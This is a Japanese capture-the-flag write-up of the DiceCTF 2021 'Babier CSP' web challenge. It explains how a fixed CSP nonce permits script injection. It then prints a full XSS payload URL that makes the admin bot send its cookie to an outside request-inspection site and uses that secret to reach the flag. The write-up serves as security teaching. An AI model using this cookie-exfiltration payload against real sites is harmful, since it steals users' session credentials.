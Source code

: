 # web/Babier CSP

## 問題
[babier-csp.dicec.tf](babier-csp.dicec.tf)  
[Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)  

The admin will set a cookie `secret` equal to `config.secret` in [index.js](https://github.com/raster0x2a/CTF-writeup/blob/master/DiceCTF/index.js).

## 解説
まず [babier-csp.dicec.tf](babier-csp.dicec.tf) は name に渡された文字列をそのまま表示させています。そのため XSS が期待できますが、 `<script>alert('ok')</script>` などを直接入れても以下のように怒られます。  

```
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-LRGWAXOY98Es0zz0QOVmag=='". Either the 'unsafe-inline' keyword, a hash ('sha256-GhSELej6D4No8Cu4c6BlA7SQooAXc4iM9HQ5s9uW7Gw='), or a nonce ('nonce-...') is required to enable inline execution.
```

script タグの nonce 属性には、CSP(Content Security Policy) によって JavaScript の実行を制限し、XSS などを防ぐ機能があります。しかし nonce の値が予測できてしまえば意味をなさないため、本来はリクエストごとにランダムな文字列を生成しなければならないのですが、このページでは `LRGWAXOY98Es0zz0QOVmag==` で固定されています。そのため `<script nonce=LRGWAXOY98Es0zz0QOVmag==>hoge</script>` という形式で怒られずに任意のスクリプトをインジェクションできます。

次に [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp) では、 URL を入力して submit すると入力した URL に Admin がアクセスしてくれます。Admin の cookie を得ることが第一の目的なので、 [babier-csp.dicec.tf](babier-csp.dicec.tf) にアクセスさせてから、cookie をクエリに含めてリクエスト内容を確認できる URL に遷移させることを考えます。
私はリクエストを確認するために [Request Inspector](https://requestinspector.com/) というサイトを利用しました。
具体的には以下の URL を入力することで cookie が確認できました。  
`https://babier-csp.dicec.tf/?name=<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href={Request Inspectorで発行したURL}?${document.cookie}</script>`

`index.js`を見てみると
```js
app.use('/' + SECRET, express.static(__dirname + "/secret"));
```
とあるため、 `https://babier-csp.dicec.tf/{cookieのsecretの値}` をアクセスしてみると、HTMLのコメントにフラグが書いてあります。
